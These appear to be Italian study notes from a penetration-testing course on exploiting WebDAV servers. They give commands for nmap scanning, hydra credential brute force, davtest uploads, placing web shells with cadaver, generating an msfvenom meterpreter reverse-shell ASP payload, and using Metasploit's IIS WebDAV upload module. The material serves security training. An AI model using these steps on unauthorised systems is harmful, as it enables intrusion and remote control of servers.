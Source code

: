 il primo passo  è quello di verificare che WebDAV sia in esecuzione sul sistema target. Dopo aver confermato la sua esecuzione e la versione, possiamo procedere con un brute force delle credenziali anche se a volte non è configurato con le credenziali. 
i tool utilizzati sono davtest, per autenticare ed exploitare, e cadaver per poter caricare e scaricare file. 
come prima cosa eseguiamo una scansione con nmap usando gli script di default (`-sC`) e quelli per identificare le versioni (`-sV`) per poi scansionare la porta 80 (`-p80`) insieme allo script http-enum per avere più dettagli 

dopo aver ottenuto abbastanza informazioni, possiamo aprire il browser e inserire l’indirizzo IP nella barra degli url seguito dalla `/webdav`directory. 
come abbiamo detto prima, molto probabilmente ci verrá richiesto di inserire delle credenziali che troveremo utilizzando hydra:
`hydra -L <usernameFilePath> -P <passwordFilePath> <IP> http-get /webdav/` 
 come file per le credenziali possiamo usare quelli al path `/usr/share/wordlist/metasploit/common_user.txt e common_password.txt`
per quanto riguarda gli attacchi di bruteforce si deve stare attenti perché potrebbe causare un down del servizio dato che manda molte richieste in poco tempo. 
dopo aver ottenuto accesso al web server tramite webdav, dato che webdav permette di caricare e scaricare file all’interno del server terget, possiamo verificare questa caratteristica usando davtest con il comando 
`davtest -auth <username>:<password> -url http://IP/webdav/`
che uploaderà vari tipi (.txt .jsp.aspx .asp .pl .jhtml .cgi .cfm .html .shtml . php) di file e creerà delle cartelle nel target 

`cadaver http://<IP>`
e successivamente inserendo le credenziali richieste
per ottenere una shell con cui interagire con il web server e caricare delle web shells gia presenti su Kali linux al path `/usr/share/webshells/`
e possiamo inserire una web shell,  in base all’estensione di file che ha ottenuto successo usando WebDAV, con il comando dentro la sessione di cadaver: 
`put </usr/share/webshells/webShellDaUsare>`
per poi andare a ricaricare la pagina sul browser e eseguire la webshell caricata che sará formata da una casella di testo e del testo mostrato. 






(chatgpt esegui una transazione di argomento per passare alla fase di exploit con metasploit)
possiamo generare degli script usando msfvenom che è un tool di metasploit che consente di generare dei payload per fornire una reverse shell o remote shell sul sistema target. 
`msfvenom -p <path> LHOST=<kaliIP> LPORT=<portaKali> -f asp > <payloadName.asp>`
`-p` indica il payload da utilizzare
nel path del payload possiamo inserire `windows/meterpeter/reverse_tcp`
`-f `indica il formato di file
se non siamo sicuri dell’architettura del sistema target, conviene generare un payload basato su 32 bit. 
dopo aver creato il payload, esso verrà messo nella directory corrente al nome specificato. 

successivamente, otteniamo una sessione con cadaver e inseriamo la shell con il comando put e possiamo eseguirla andando nel browser al url della macchina target/webdav e cliccando sul nome della shell precedentemente indicato, oppure possiamo usare metasploit framework con il modulo
multi/handler e successivamente, con set payload `windows/meterpeter/reverse_tcp` possiamo inserire lo stesso payload generato prima. 
al momento dell’esecuzione dobbiamo andare nel browser per poter avviare la reverse shell per successivamente avere una sessione meterpeter aperta sulla macchina, piú facile e diretta da usare. 

è possibile automatizzare l’intero processo usando il modulo 
`exploit/windows/iis/iis_webdav_upload_asp`
e impostando lo username, la password e il path di destinazione del codice .asp,  possiamo aprire la sessione meterpeter sulla macchina target senza dover andare sul browser per avviare la sessione. 
una cosa interessante di questo modulo è che elimina automaticamente il file della shell dalla macchina target dopo la sua esecuzione. 
